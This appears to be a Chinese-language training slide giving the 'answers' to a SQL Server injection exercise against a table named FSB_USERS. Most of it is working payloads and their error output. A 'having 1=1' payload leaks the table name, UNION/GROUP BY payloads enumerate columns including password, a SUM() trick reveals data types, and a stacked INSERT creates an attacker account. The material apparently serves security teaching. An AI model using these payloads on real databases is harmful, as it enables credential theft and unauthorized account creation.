

# SQL注入 - SQL Server数据库注入(2)答案
查找表明
 ' having 1=1 –
Column 'fsb_users.user_id' is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause.
查找列
 'UNION SELECT * FROM FSB_USERS WHERE USER_ID = '1' GROUP BY USER_ID HAVING 1 = 1;--
 Column 'FSB_USERS.user_name' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. Column 'FSB_USERS.login_id' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. Column 'FSB_USERS.password' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. Column 'FSB_USERS.creation_date' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
查看列格式
' UNION SELECT SUM(user_name) FROM FSB_USERS HAVING 1=1 –
The sum or average aggregate operation cannot take a varchar data type as an argument.
插入用户
 '; INSERT INTO FSB_USERS (USER_NAME, LOGIN_ID, PASSWORD, CREATION_DATE) VALUES('HAX0R12', 'HACKME12', 'EASY32', GETDATE());--